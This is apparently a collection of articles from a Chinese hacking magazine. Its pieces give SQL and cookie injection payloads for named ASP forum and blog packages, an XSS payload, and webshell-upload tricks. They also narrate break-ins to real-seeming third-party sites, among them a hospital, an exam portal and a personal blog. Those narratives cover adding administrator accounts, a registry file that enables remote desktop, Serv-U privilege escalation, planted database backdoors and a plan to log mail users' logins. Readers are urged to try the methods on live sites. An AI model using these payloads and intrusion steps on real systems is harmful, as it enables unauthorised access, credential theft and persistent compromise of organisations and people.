`http://localhost/BBS/pm.asp?mode=kai&q_id=9%20and%200<(select%20count(*)%20from%20admin%20where%20a_id=3%20and%20asc(mid(password,1,1))>100)`

然后再按照上面的方法依次提交猜解，得到 50 101 102 51 98 49 55 100 97 55 97 50 56 56 98 101，转换之后为 2ef3b17da7a288be。破解之后是 mengke。这样，我们就得到了管理员用户名和密码了。

另外，list.asp 文件产生漏洞的代码如下：

```asp
l_id=chktopic(Request("l_id"))
if errornum<>1 then
isbanzhu=false
sql="select l_password, Laccess, l_banzhu from lanmu where l_id="&l_id&""
set rs=conn.execute(sql)
```

这也是一个比较明显的漏洞，漏洞产生原因和上面相似，这里不做讲解，希望不会的朋友能练习一下分析，这样更有助于进步（这套系统的论坛存在注入漏洞很多，可自行测试，这套程序下载地址：http://www.mengke.net/soft/mengke.rar）。

#### 2. 删除邮件注入漏洞

先来看一个函数，代码如下：

```asp
1. sub showrecmve()
2. if Request.QueryString("mode")="del" then
3. if chktopic(request("delall"))="清空收件箱" then
4. sqldel="DELETE from pm where q_receive='"&cpbusename&"'"
5. conn.execute(sqldel)
6. else
7. for i=1 to request("q_id").count
8. sqldel="DELETE from pm where q_id="&chktopic(Request("q_id")(i))&""
9. conn.Execute (sqldel)
10. next
11. end if
```

这是 pm.asp 文件中的一个函数，功能是用来删除邮件的。大概内容是如果用 Request.QueryString 方法获取从客户端提交过来的 mode 的数据为 del，且如果用 request 方法获取客户端提交来的 delall 的值为“清空收件箱”，那么就删除收件箱中所有的邮件；否则，就只删除用 request 方法获取从客户端提交过来的 q_id 的值的邮件。request 方法并没有指定哪一个集合，那么自动检索就为 Request.QueryString 方法了，而这样提交数据，只过滤了 `'`，所以，这又是一个注入点了。

这个注入点的利用是比较繁琐的，要利用注入点，之前最好先注册两个账号，然后发送一大堆的邮件，就可以开始测试了。打开一个邮件，然后将鼠标移到“删除”按钮那里，在状态栏就能看到这个地址了，如图 2 所示。

为了能做对比，以便更好说明，我把目前邮箱有多少封信件的图抓了出来，如图 3 所示。

那么，我们提交：

`http://localhost/BBS/pm.asp?mode=del&q_id=16%20and%201=2`

返回如图 4 所示。

虽然这里说了，邮件已删除，但是返回到短信中心的时候，邮件数目没有改变，和图 3 的一样。为什么会这样？因为我们提交了上面的 URL 之后，程序执行了 `DELETE from pm where q_id=16 and 1=2`，因为 1 不等于 2，所以 SQL 操作不成功，才没有删除成功。

再继续提交：

`http://localhost/BBS/pm.asp?mode=del&q_id=16%20and%201=1`

返回和图 4 一样的内容，说邮件已经删除，正在返回短信中心。等返回短信中心，差别就显示出来了，如图 5 所示。

那条“欢迎光临天马行空技术小组，www.1Steam.cn”的短消息被删除了，也就是说，我们提交的数据，参与 SQL 查询，并成功得到操作了。那么，以后要进行注入，只要你构造的语句合法，就会删除你拿来注入的那条短信；如果你构造的不合法，返回结果就是那条短信没被删除。这样，就可以和上面第 1 种注入方式一样，进行注入了。

### 三、遗憾 Webshell

说到拿 webshell，真 TMD 要多骂几句脏话，程序开发者很阴险，一些功能都要商业版，免费版错误很多，上传的功能就出现错误，后台倒是可以备份数据库，不过，他的程序用了防下载，所以插小马、备份为 ASP 后缀、插大马这条路是断了。不过，相信网上还是有一些商业版存在的，所以，如果有朋友弄到商业版的就搞一下试试看，我已经绝粮断网 N 久了，每天没饭吃只能吃土豆片，土豆叔都被我吃了 N 遍了……更别说上网了。再说一下，后台还可以更改上传类型，所以说，如果上传功能正常，那么拿 WEBSHELL 应该不在话下了，如果有朋友弄到商业版的站，可分享一下，谢谢！

> 编辑点评：作者耐心真不错，那个站内邮件的注射漏洞利用起来也太辛苦了一点；另外这套程序的安全性确实不怎么样，大家可以拿来练手了。[NOHACK]

## 再战廊坊供求信息网系统

#### 花非花

从本文中你可以学到：

- 1、request.cookie 方法的注入
- 2、实例分析注射的技巧

忘了第几期在《手册》公布了一篇关于廊坊供求信息网系统的漏洞，今天拿起这套系统看了一下，发现这套系统还存在一定的问题。这套系统采用了一款叫 Cnami 信息发布系统的防注入系统，和很多过滤系统一样，过滤了 GET 方法和 POST 方法提交的数据中可能会含有的一些危险字符，像下面这些字符都被过滤了：or|join|union|like|modify|cast|drop|exec|insert|select|delete|update|count|alter|rename|chr|mid|truncate|char|declare。这些字符，对于 asp+access 的系统来说，这样的过滤是致命的。也就是说，用 Request.QueryString 和 Request.Form 方法获取从客户端提交过来的数据，只要含有上面的字符，就不能通过，会弹出一个警告，如图 1 所示。

看了黑萝卜的一篇文章，介绍了 request.cookie 方法的注入，学习了一下，并做了一些实践，感觉很不错，所以也拿了这套系统来做练习，这里先感谢一下黑萝卜。一些系统，使用到 Request.Cookie 方法的时候并不会非常地多，一般都是在获取 cookie 信息的时候才用到。但是网上防注入的系统，绝大多数都是防 GET、POST。很多系统，用 request 方法获取客户端传来的数据的时候，并没有按正常情况那样分得很清楚地用 Request.QueryString、Request.Form、Request.Cookie 这样来

提交数据，而是直接用 `request("id")` 这样的方法来直接获取数据，而这样获取数据，程序是按照 `request.querystring` 优先于 `request.form`，`request.form` 优先于 `request.cookie` 这样的顺序来搜索集合的（这里会和萝卜的文章有点重复，希望萝卜不要见怪）。又由于，这套过滤系统只过滤 `request.querystring` 和 `request.post` 方法获取的数据，对 `request.cookie` 方法获取客户端提交过来的 cookie 数据并没有任何处理，这样，我们可以通过修改 cookie 的值进行注射，前提是寻找那些使用 `request("id")` 这样的方法获取数据的 request 方法。好了，原理算讲完了，现在就以廊坊供求信息网系统的 `xinximemo.asp` 文件为例，代码如下：

```asp
dim rs,sql,b,bb,i,tj,class1,sclass1
set rs=server.createobject("ADODB.recordset")
class1=trim(request("class1"))
if class1<>"" then
sql="select * from class1 where id="&class1&""
rs.open sql,conn,1,1
sclass1=rs("class1")
rs.close
end if
```

1 行表示定义变量，3 行表示用 request 方法获取从客户端提交上来的 class1 的值，4、5、6 行表示如果 class1 的值不为空的话，把字符串变量 class1 的值存入变量 id 中，再将整个语句存储到变量 sql 中，然后执行 sql 字符串变量保存的值，sql 变量保存的值是一条 SQL 查询语句。

`request("class1")` 这样的获取数据方法符合我们前面讲的获取数据方法，所以，我们可以对它进行 cookie 注入。


打开 URL：`http://localhost/class1info.asp?class1=8`（以后以 URL1 代之），然后去掉此 URL，提交：`javascript:alert(document.cookie="class1="+escape("8 and 1=1"));`（以后以“命令1”代之），返回如图 2 所示。

然后提交：`http://localhost/class1info.asp`（以后以 URL2 称之），返回正常，如图 3 所示。


而我们没有执行命令 1 之前，我们提交 URL2 的时候，会出现错误，如图 4 所示。


执行 `javascript:alert(document.cookie="class1="+escape("8 and 1=1"));` 之后，因为我们修改了 URL2 的 cookie 的值为 `"class1=8 and 1=1"`，所以我们访问 URL2 的时候没出现错误。好，到这里打住，不做其他解释，提交：`javascript:alert(document.cookie="class1="+escape("8 and 1=2"));`（以后以“命令2”代之）。

弹出和图 2 差不多的对话框，然后再提交 URL2，返回如图 5 所示的内容。

之前我们提交的命令 1 返回正常，而改变 `"1=1"` 为 `"1=2"` 就出错，为什么会这样呢？因为，当我们提交命令 1 的时候，


其功能相当于没有任何数据过滤的情况下，用 `request.querystring` 方法获取数据时的注入一样，命令 1 的功能也就相当于没有任何过滤时，提交 `http://localhost/class1info.asp?class1=8 and 1=1` 的结果是一样的。也就是说，我们改了 cookie 的值，而且我们修改后的值参与了 SQL 查询，所以，我们在这里成功进行了注入。

再提交：`javascript:alert(document.cookie="class1="+escape("8 and 0<(select count(*) from admin where id=45 and asc(mid(username,1,1))>100)"));` 返回出错，说明 admin 表中的 username 列的第一个字符的 ASCII 值小于 100，改变后面大于 100 为 `>96`，返回正常；再改为 `>97` 返回出错，说明第一个字符的 ASCII 值为 97。然后，改变 `asc(mid(username,1,1))` 中的第一个 `1` 为 2、3……然后继续改变后面的 `>100` 的值，一直到把 username 的值猜出来，其中 `id=45` 的是超级管理员的 ID；然后再提交：`javascript:alert(document.cookie="class1="+escape("8 and 0<(select count(*) from admin where id=45 and asc(mid(password,1,1))>100)"));`，然后按上面方法猜解就可以把密码猜出来了，密码是 MD5 加密的，要破解一下。

然后再用得到的用户名和密码到后台登录，至于怎么拿 WEBSHELL，前期的《手册》已经有讲过了，不会的朋友可参照一下。文章结束之前，我提供另一个漏洞文件，供没有学过的朋友练习，自己试着分析一下，再练习一下，这样印象更深刻！

漏洞文件为 `diquinfo.asp`，关键代码如下：

```asp
set rs=server.createobject("ADODB.recordset")
diqu=trim(request("diqu"))
dim rsjb
set rsjb=server.createobject("adodb.recordset")
sql="select diqu from [diqu] where id="&diqu&""
rsjb.open sql,conn,1,1
```

原理都差不多的，这套系统还有 N 多这样的文件，有兴趣的朋友可自行测试，正如萝卜所说的，这样的漏洞存在广泛，有很多程序会陆续遭殃！文章结尾，祝所有的朋友们：寒假快乐，春节快乐！

> 编辑点评：这篇文章应该是作者看了上次我们刊登的萝卜的 cookie 注射文章后自己学习实践的经验分享，很喜欢这样能在杂志上看到自己不会的东西，认真学习，再变成自己的东西，去利用，去完善的文章，期待更多的人有这样的学习态度。

## 易心博客 V1.6 漏洞解析

HackLU

- 从本文中你可以学到：
- 易心博客的漏洞分析
- 一般的 ASP 程序的跨站和注射漏洞的分析

易心博客 V1.6 在美工方面是不错的，今天无事，下了一套代码分析了一下，发现安全方面实在是不太如人意，今天简要分析以下两个漏洞。

### 一、跨站漏洞分析

先来看看跨站，处理评论的文件是 `blogview.asp`，里面的关键代码和我做的注释如下：

```asp
Dim cmttitle,cmtcontent,username,userpass,userhome,checkcode,rs,parentid,strsql,cmtid '定义变量
cmtid=request.querystring("id")
cmttitle=server.htmlencode(request.Form("cmttitle"))
username=server.htmlencode(trim(request.Form("username"))) '取得评论用户名，用htmlencode函数过滤
userpass=server.htmlencode(trim(request.Form("userpass"))) '取得评论者密码，用htmlencode函数过滤
cmtcontent=request.Form("Body")
checkcode=request.Form("checkcode") '取得验证码
userhome=request.Form("homepage") '取得客户用户主页的连接，这里没有过滤
if session("excheckcode")<>checkcode then
response.Write("<script>alert('验证码不正确')</script>")
response.Write("<script>history.go(-1)</script>")
response.end
end if
' call checkuser(username,userpass)
If cmttitle<>"" And username<>"" And cmtcontent<>"" then
strsql="select * from comment"
Set rs=server.CreateObject("adodb.recordset")
rs.open strsql,db,1,2
rs.addnew
rs("cmttitle")=cmttitle
rs("username")=username
rs("cmtcontent")=FilterCmt(cmtcontent)
rs("addtime")=now()
rs("addip")=request.servervariables("remote_addr")
rs("parentid")=cmtid
If userpass<>"" Then
rs("userpass")=userpass
End If
rs("userhome")=checkhttp(userhome) '没有过滤，最后将没过滤的显示出来
rs.update
代码略……
response.write("<script>alert('您已经成功的发表评论')</script>")
```

这个程序的作者不知道怎么弄的，既然在用户名那里过滤，为什么在用户主页那里不过滤呢？我们直接在评论的地方填上如图 1 里的内容。


“hacklu”定位到 `<a href="http://<script>alert("hacklu")</script>" target="_blank" title="查看主页">` 这里，哦！原来是被 `"` 和 `>` 给统治了，那我们提交：`">http://<script>alert("hacklu")</script><"`


再来试一下，哈哈，跨站成功了，如图 2 所示。

### 二、注射漏洞分析

看完跨站接着再来看看注入漏洞，在 `index.asp` 文件里，关键代码和我添加的注释如下：

```asp
Dim selecttype,keyword
'定义变量
selecttype=request("selecttype")
'直接取值
keyword=request("keyword")
strsql="select log.log_postyear,log.log_postmonth,log.log_postday, log.title,log.bits,log.id,log.iscmt, log.classid,log.emotion,log.tb,log.ishide,log.cmt,log.logpass,log.submittime,log.content,log.textnum,class.classx from log, class where log.classid=class.id and log."&selecttype&" like '%"&keyword&"%' order by istop asc,log.id desc"
strurl=strurl&"action=search&selecttype="&selecttype&"&keyword="&keyword&"&" '将没有过滤的值进入数据库查询，漏洞产生
```

上面的两个值（`selecttype`、`keyword`）没有过滤就带进了数据库查询，这两个变量在什么地方引入的呢？`keyword` 是站内搜索的地方，我们在搜索的地方打上：`' or 1=1 or '1'='1` 和 `'or 1=2 or '1'='1`，返回了两个不同的页面，如图 3 和图 4 所示。

接着来猜管理员密码，我们首先构造猜密码长度的语句如下：`' or 16=(select len(ad_pass) from bloginfo) or '1'='1`，`bloginfo` 是管理员的表，`ad_pass` 是列名，因为这里我已经从源码里知道了，如果返回图 3 的页面说明就是 16 位的；接着构造 `'or 97>(select asc(mid(列名,1,1)) from 表名) or '1'='1` 来看看第一位密码是不是小于 ASCII 码的 “a”，如果成功说明小于 “a”，那么就可能是数字的密码（因为数字的 ASCII 码是 `48-57`，是小于 97 的）。由于可以是 GET 方式提交，我们也可以直接在地址栏构造语句，以避开搜索框那里的长度限制，如图 5 所示。

上面这个用手工注入太麻烦；我们看看有没有别的注入漏洞，我们再来看看 `index.asp` 里的部分代码，如下：

```asp
dim tagsrs,classid2
classid2=request.querystring("classid")     '直接取值
Set tagsrs=db.execute("select id from tags where tagname='"&keyword&"' and classid="&classid2)
'进行数据库查询
```

很容易看到 `classid` 没有经过过滤就赋给 `classid2` 进数据库查询，而且这个变量直接可以在地址栏注入，在后面提交 `and 1=1` 返回正常页面，提交 `and 1=2` 返回了错误页面，见图 6。

## 三、小结

由于本人水平有限，暂时在后台还没拿到 WEBSHELL，期待高手的突破，不过对于那些想改首页和挂马的朋友来说，在后台就可以完成了。大家去 GOOGLE 搜索：“易心博客 博客统计 博客留言 程序模板 实用查询”，会找到使用这套程序的网站，最后欢迎大家来 NOHACK 的论坛和我交流，我的 ID 是樱花浪子。

**编辑点评**：我们连续刊登了一些这样的漏洞分析的文章，不晓得大家都掌握了没有，总的来说，只要安心学习，这样的文章是不难掌握的，理解其实质，就可以自己去试着分析和发现一些类似的漏洞了，进而慢慢积累，你就是高手了。

大家好，LCX 流感严重，由小编天涯客串了一把战事的编辑，本篇文章没有许多特别的技巧或者 0DAY，有的是一篇篇实实在在的渗透、实战。这些文章中体现的作者对渗透、入侵的理解，以及自己思维方式的展现，希望大家可以借鉴一二，用到自己的实践中来，取长补短。

新年快到了，天涯希望大家都健健康康、快快乐乐地过大年，别搞得又是感冒，又是发烧的，那样过年就不好玩了；在发稿时止，LCX 已经进入康复状态，未来他将继续给大家带来更多的好文章和新技术……

## 全国三级甲等医院的渗透手记

Morephaze[D.S.G] & sheldon[D.S.G]

- 从本文中你可以学到：
- 渗透的一般思路
- 渗透过程的一些小技巧

在行文之前先给大家拜个早年，新年之际，希望能给广大准备高飞的菜鸟们带来一些引导性的文字，也欢迎大家与我进行技术探讨。

本次的案例来源于对一全国三级甲等医院的渗透（我们学校的附属医院 ^_^），虽然技术并不高深，但作为一次完整的渗透过程，但愿大家能细细体会里面的思路，再回头学学技术。好了，废话不说了，LET'S GO！


### 一、google-hacking 的应用

打开我们的目标网站 `www.xxx.com`，如图 1。

不知道大家留意到地址栏了没？有这么一个 URL：`http://www.xxx.com/new/?type=11&id=20061227111`，大家不用惊讶，为什么没有网页后缀呢？是因为管理员在 IIS 里设置了映射，我们就不容易知道目标用的是什么 CGI 程序，看来管理员还是做了功课的（毕竟三甲医院也不是太夯），再转了一下主页，发现还支持 JSP，肯定就不简单了。

找不到线索呢，试试旁注吧，由于我们是内网，只好叫 sheldon 帮我 ping 了一下，马上得到了目标公开 IP，接下来用明小子的 domain3.5 来旁注查询了一下，发现以下这些站点都是在上面的，如图 2。


我就挑那个脊柱骨病外科的网站下手吧，打开网站，发现原来是 ASP 的站点，这里想必大家都知道怎么找注入点吧？就是直接用啊 D 注入工具来检测就行了，我这里偷个懒，打算利用社会工程学来玩这个站。为什么呢？有两点依据，一是从论坛底部我们可以看到版权信息没改动过，如图 3。


从这里我们可以看出管理员基本上没怎么管理这一块区域；二是由于我国现在网络管理员的平均素质水平实在有限。从这里入手比较快捷方便。从上面我们找到了 verybbs v2.0 这个东西，我上 Google 搜索了一下，原来是一套叫作“非常视觉 v4.0 正式版”的整站，下来才知道，说白了就是各种源代码模块整合起来的一堆东西，安全性可想而知。这套论坛就是用了 6KBBS 的代码，接下来再 Google 一下，得知 6KBBS 的默认数据库地址是 `DB/6KBBS.MDB`，那我们来看看能不能下载，如图 4。

我们可爱的管理员呀，默认的数据库路径居然没改！我们采用 Access 打开 `6kbbs.mdb`，找到一个名为 `wangjian` 的管理员和 MD5 密码散列，这里确实需要一些运气，MD5 跑了几秒钟就跑出管理员密码了，如图 5。

纯数字密码 `007968`，我们拿这个密码登录后台去，如图 6。

不知大家注意到没有什么？没错，服务器是 IIS 6.0 版本，这就是说服务器很可能支持 ASPX 格式的 webshell 哦，稍后再说这个，先卖个关子。


回到我们的后台，怎么上传 webshell 呢？我介绍一种老方法吧。就是数据库备份大法，先准备一个 ASP 木马（这里用的是 lcx 大哥的海阳顶端 ASP 木马 2006 eval 版，小巧），改后缀名为 `asp.jpg`，然后再上传论坛，如图 7。


记下图中的那个木马图片的地址，我们回到后台数据库备份功能页面，如图 8。


把图片木马地址填上去，在下面的地址上改成木马的名称和路径，最后点击备份就 OK 了，如图 9。


`Db` 目录下面的 `help.asp` 就是我们的木马地址了，用海阳的客户端访问一下看看，返回如图 10。

成功！没想到拿下 webshell 是这样不费吹灰之力，那么下一步我们将进入提升权限之旅吧！

### 二、致命的权限提升


浏览了一下服务器的情况，基本上改主页是不存在问题的，但是我们要的是系统权限乃至 3389 的控制权，怎么办呢？前面我们提到了服务器用的是 IIS 6.0，我们可以尝试一下用 ASPX 的 webshell 来执行命令，因为 ASPX 的权限一般来说比 ASP 的权限要大得多！用前面得到的 ASP 木马把 ASPX 木马传上去之后，执行添加用户的命令看看：`net user morephaze hacker /add`，返回如图 11。


没返回“命令成功完成”之类的字样，说明 aspnet 的用户权限不够，后来不放心，再用 net user aspnet 命令来查看用户组，果真是低权限的 user 组。这方面没戏了，我们看看系统服务都开了哪些？运行 net start，返回如图 12。


下划线的两项是可以利用一下的，尤其是 EASY MAIL 这系统，什么时候搞个企业邮箱账号来玩玩也不错哦！我们找 mssql 连接文件看可不可以找到一些连接数据库的代码。翻了半天，主要是因为看不懂 aspx 的代码，无功而返！

郁闷之中思路回到首页，突然有些东西闪过，服务器医院主页用的是什么代码呢？最后终于在 apache 的目录下找到了主页目录，我们回头看看上面的图，果然装了 apache tomcat，难道？

一切如我所料，这台服务器是支持 jsp 的！兴奋一下，说不定会有惊喜。放个 jsp 木马上去看看吧，翻了硬盘好久才找到一个名叫 JFolder.jsp 的木马，改装一下，呵呵，如图 13。

可爱的界面，国内 jsp 的 webshell 也实在不好找啊（这任务交给大家了），不过这个 jsp webshell 的威力实在是猛，居然是系统权限的！执行命令：net localgroup administrators tsinternetuser /add，结果如图 14。

这 tsinternetuser 就真的钻进管理员组了，只要再把密码改一下就完美了，呵呵。没想到这服务器居然栽在 apache 上面，实在为现今管理员的安全意识担忧呀！

## 三、扩大战果

继续为这次渗透画上完整的句号，我们来给它开 3389，从 webshell 返回来的信息看，服务器是一台 windows2003 的服务器，2003 的服务器实在是有意思，开 3389 不像 win2k 那样需要重启的。


这里我们用到一个小工具，就是特南克写的一款开 3389 工具，该工具还可以针对不同版本 windows 生成不同的配置文件，简单易用，这里我们直接用它的 opents.exe 就可以了。我们把 opents.exe 上传到服务器上，用 jsp webshell 来执行，如图 15。

执行完成后我们执行 net start 命令看看，如图 16。

远程桌面连接上去看看，如图 17。

Bingoo，这里我实在没想到服务器居然是英文版 2003 的，难怪前面 jsp webshell 执行命令显示的是“The command completed successfully”，太酷了，至此我们已经拿下了这台传说中的 windows2003 服务器最终控制权。

既然到此，不留个后门怎么对得起自己呢（汗……）？看到程序里面有 SQL 企业管理器，打开进去留个系统级别的后门吧，如图 18。


留了个 db_owner，很隐蔽很具有迷惑性吧，但权限跟 sa 一样的哦！

在此补充几句，其实网上流传的修改注册表开 3389 方法我刚刚试过了，具体的 reg 文件内容如下：

```reg
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
"fDenyTSConnections"=dword:00000000
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]
"PortNumber"=dword:00000d3d
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]
"PortNumber"=dword:00000d3d
```

把上面代码存为 2003.reg，上传至服务器再导入注册表，命令格式：regedit /s 2003.reg

这样就能导入注册表了。

但实际我这里的结果显示这方法并没有任何效果，不知道是不是我手头上的 jsp webshell 权限的问题（个人认为与系统语言版本有关），有兴趣的朋友可以试试或者一起讨论，其实对比注册表的变化就知道变化的键在什么地方，你也可以自己发布一个 windows2003 英文版的开 3389 工具哦！用注册表快照对比一下比较方便地实现。

前面说到了获取企业内部用户邮箱账号，其实 web 邮箱和平时的 asp 程序没什么两样，简单的方法是修改登录文件使得每个用户的登录都被记录在一个文件里，在 asp 利用 FSO 就可以简单地实现了，如果要自己的邮箱，既然开了 3389 自然也不成问题的，这里就不作演示了，反正我是弄了个来玩。

## 四、后记

关于国内服务器安全问题，我们也不用多说了。想成为一名真正的黑客，除了拥有黑客执着追求的精神外，还需要有相当丰富的计算机知识。其实往往我们强调的不是黑客的技术知识，而是信息搜集能力。运用 Google-hacking 我们可以找到网站的各种信息，从而找到薄弱环节实施入侵。从某种程度上来说，Google-hacking 是一种技能。更多是为了照顾新手，本文有点“婆妈”了，希望高手们能谅解，但愿本文能对大家起到抛砖引玉的作用。

（文中内容涉及的程序或代码已经收录在本期光盘相应栏目中）

**编辑点评：** 很详细的一篇文章，从探测到最终的提权限，写得比较详细，大家看得懂，我就不多“婆妈”了；对于 JSP 的 WEBSHELL 的权限我再说两句，文中说是 JSP WEBSHELL 猛，其实不是的，这个权限的大小要看 JSP 服务器是以什么权限启动的，这里的 TOMCAT 明显是用系统权限启动的，自然 JSP 的 WEBSHELL 权限就很大了。

## 另类拿 WEBSHELL

### 第九街的咖啡

- 从本文中你可以学到：
  1. 一种拿 WEBSHELL 的思路
  2. 利用 eWebEditor 来拿 WEBSHELL

今天闲着无聊，在网上没事乱转，看到了一篇关于 IIS 目录权限设置不当的利用，突发奇想地想到了利用设置不当的 IIS 来拿 WEBSHELL，这里我们来拿 eWebEditor 里边的一个图片文件来搜，为什么要拿这个来搜呢？我觉得只要能找出这样的文件就能保证能找到它的数据库文件；另外，相对来说，一般人很少注意这个东西，密码也就好破一点。

好的，废话不多说了，我们下边开始吧！打开百度搜索 tablerowinsertabove.gif，这个图片文件是我在 eWebEditor 图片目录里边随便找的一个，这里你可以自己找一个来搜，会搜出好多这样权限设置不当的网站，我们随便找一个吧，如图 1。

然后我们点“转到父目录”一直跳到如图 2 的页面。


点 DB 目录来到数据库的下载页面，如果是 .MDB 的后缀就直接下载就行，如果是 .ASP 或 .ASA 的就用网际快车下（带 # 号的把 # 号化成 %23），下载下来改后缀名为 .MDB，下载下来数据库后用数据库浏览工具打开文件，找到加密后的密码如图 3。


接下来就到 MD5 网站上查询密码去吧！这里推荐 www.xmd5.com，拿到密码后我们来到后台登录上去，然后点“样式管理”随便选择一个样式点“拷贝”，然后会生成一个名字为原样式名字 + 1 的样式，点“设置”在图片类型里边添加 ASA，如图 4，然后提交。


返回样式管理点点击你刚才拷贝的那个样式的预览，选择插入或修改图片那个图标，会出现一个图片上传页面如图 5。


这时上传一个 ASA 后缀的小马，上传后点查看代码，这时就会看见你的小马地址，快把你的小马地址复制进 IE，回车，一个 WEBSHELL 就这样拿到了。

**编辑点评：** 很不错的一个思路，我在 BAIDU 上试着搜了一下，果然有不少这样的网站，很多都是可以按照作者的方法拿到 WEBSHELL 的，作为一种思路的拓展，希望大家在实践的时候不要太过火，另外也希望能有此类技巧的读者来稿分享。

## 一次一波 N 折的入侵

### 第九街的咖啡

- 从本文中你可以学到：
  1. 比较灵活的入侵思维方式
  2. 分析问题，寻找解决问题的办法

这两天在网上没事做，跑到 benjamin 的新浪博客上溜达，看看它有没有贴新的图片，看着看着就跑到它的友情链接上去了，点开一个链接，跳出来一个 MSN 空间的网页来，哇，美女哇！上边有很多她的个人照，但是每个照片上都有一个同样的网址，也许那就是传说中的官方主页吧，顺手就把网址敲进了 IE，回车，一个漂亮的 BLOG 页面出现了，一个很不错的 BLOG，忍不住手痒，帮她测试一下安全吧！

首先拿出偶的最爱“啊 D”，对着网站就是一阵扫，结果很遗憾 :(，如图 1。


看来此路不通，换个方法，接下来掏出 Domain3.5（旁注的必备工具！），大家也知道我下面的意图了吧！对，从服务器的其它网站上试试，看有没有下手的地方，哇！找到 10 个注入点，如图 2。


随便点选一个网址，右键选择注入检测，开始注入检测，结果更让人失望：“检测失败，该 URL 不可以进行注入！”，无语了，原来这些注入点都是假的，看来注入这条路是彻底走不通了，再换个思路吧！


到百度上搜了一下，知道她用的是 lbs2.0.304 建的 BLOG，马上就到官方下载一套源码程序！分析一下网站的结构，顺便看一下默认账号和密码是什么，拿默认密码和账号到上边一试还是不行，看来她把默认密码改掉了！那就试试下载默认数据库吧！通过对源码程序的分析知道数据库放在 DATA 目录下，马上在网页地址后加上 data/blog.mdb 回车！Bingo，正中目标，如图 3。


很顺利地下载了数据库，激动啊，迫不及待地用“辅臣数据库浏览器”打开它得到管理员账号和密码，如图 4。

哈哈，有个这就好说多啦，马上到 www.cmd5.com 上跑密码去，结果没跑出来，难道就这样打住了？这里我犯了个错误，这个密码根本不是用 MD5 加密的，后来仔细看了一下官方的介绍才知道它是用 SHA1 加密的，知道了加密的方法，而且走到了这一步就试试暴力破解吧！到网上搜了一下破解 SHA1 加密的工具，找到“MD5SHA 高级解密器”，下载下来安装，安装好后运行，晕，我无语了，竟然出现了……如图 5。

要想运行这个软件还要你安装 MicroSoft .NET Framework 2.0 运行库（这里说下这个软件中捆绑有广告软件，到时你被装了广告软件，可别说我没有告诉你哦！）。看来暴力破解的计划又完蛋了。坐下来喝口水，好好想一下下一步如何搞，这一想不要紧，还真想出点东西来，突然想起，从官方下载下来的数据库里边的默认密码加密值，和从她的 BLOG 上的管理员密码的加密值有点像，这不比不知道，一比吓一跳，哇！加密码一样耶！如图 6。


最终得到管理员账号 roya，密码 comeon，马上登录到 BLOG 上，来到后台看看有没有上传的地方，在基本设置里边找到了控制上传的地方，如图 7。


在上传文件类型里添加 ASP（这里边是用逗号分开的），来到前台点“发表日志”，在附件那里上传一个一句话马，得到文件上传后的路径 uploads/200611/08_223045_count.asp，拿出海洋的一句话连接客户端连接上去，成功拿到 WEBSHELL，如图 8。


到这里就结束了吗？花了这么多长时间搞，当然不能就这样算了，我想要搞定整台服务器呢。通过 WEBSHELL 知道服务器开了 3389，而且用的还是 SERV-U 5.2，前些天在《手册》上看到有关 Serv-U 提权的文章顺便练一下哈，上传了一个 SERV-U 的 ASP 提权工具，如图 9。


运行后成功地添加了一个名叫 coffee，密码为 123456 的管理员账号，马上登录上去成功拿到服务器！如图 10，整个入侵到此结束！

到投稿前该网站服务器已装 PcAnywhere，也把数据库改成了 ASP 格式，而其域名 www.imroya.com 也做成了转向，SERV-U 换成了 6.0，请大家不要对号入座。

> （文章中用到的工具 Domain3.5、啊 D 注入工具 V2.32、md5shav2.51、海阳顶端网 ASP 后门以及 lbs2.0.304 的源码已收录在光盘中）

**编辑点评：** 作者比较细心，连密文都能记得一一，值得称赞下。文章中没有很特别的技术闪光点，只是思维比较灵活，知道在遇到挫折的时候选择变通，知道怎么分析问题，然后寻求解决办法。需要学习的是他的思路，我们不能自己发现 0DAY，就只能把自己的思维改得更灵活一点些了。

## 对浙江软考网的入侵

- 从本文中你可以学到：
  1. 渗透的一般思路
  2. .net 的暴露路径方法

软考在中国的各类计算机考试中含金量是很高的，也有点念头想看看到底考什么，所以就有了下文。

从百度上得到很多信息，有一个叫浙江软考网，进去看看（浙江人嘛），看是一个 asp.net 站点，出于习惯在前面加个“~”试试，因为“~”暴露路径的概率是比较高的，不出所料路径出来了，如图 1。


得到路径能说明什么，至少可以知道，网站没有做好出错处理。好，继续找到一个参数提交的页面，在参数后面加个单引号，出错了。继续提交 and 1=1 和 and 1=2 都出错了，好像不能注入，仔细看提示：“从字符串‘129 and 1=1’到类型‘Integer’的强制转换无效”，参数肯定是经过整型过滤的，看来这里是不能注入了。


总觉得网站没有好好地过滤，所以在网站上找啊找，发现了一个留言版块，看看它安全性，在一个留言后面加了个单引号，也出错了，提示和上次不太一样，看来有希望，继续提交 and 1=1 和 and 1=2，得到了预期的效果。看看是什么数据库，提交 and user>0，出来了，如图 2，是 mssql 数据库，还是 DBO 哦。

先看看主机有没有开 3389，打开 cmd 输入 telnet 202.***.***.9 3389，回车提示连接失败；再看看有没有开 1433，提示也是连接错误，如图 3。

拿出 nbsi 先跑出管理员密码再说（直接加管理员账号也可以，不过刚才连接 3389 没反应，看样子是关了远程桌面或安装了防火墙，加了账号也没什么用）。所以我只好先跑密码，跑不出来再用 cmd_shell 写文件。很快 nbsi 就跑出了账号和密码，如图 4。


啊，是加密的，到网上一查，吓了一跳，密码是 852，真够简单的，到后台登录，如图 5。


发现有两个上传的地方，试试上传一个 aspx 木马，看来成功了，根据显示的路径访问，郁闷了，如图 6。


无法找到文件，难道提示的上传成功是假的，继续传了好几个不同的马，结果是一样的，可能被杀毒软件杀了，用 asp 的试试，找出自己写的一个 asp 木马，传了上去，输入网址，成功！如图 7。


既然得到 WEBSHELL，且权限为 DBO，完全可以放一个超级后门，我就不继续了，得马上找网站管理员的邮箱了。

> 编辑点评：比较简单的一篇文章，其中关于 .net 的暴露路径的方法大家可以参考和实践一下。

## JSP 拿下秦皇岛信息港

- 从本文中你可以学到：
  1. 实际的入侵过程
  2. 吸取一些马虎大意的教训

高三了，眼看高考无望（233 分谁要？），便和朋友研究毕业以后去干什么。在 CSDN 看着无数大公司的高薪职位那个眼馋啊，便转到本地的秦皇岛信息港看看有什么肥差没有，也顺手对我们可爱的信息港测试下吧。

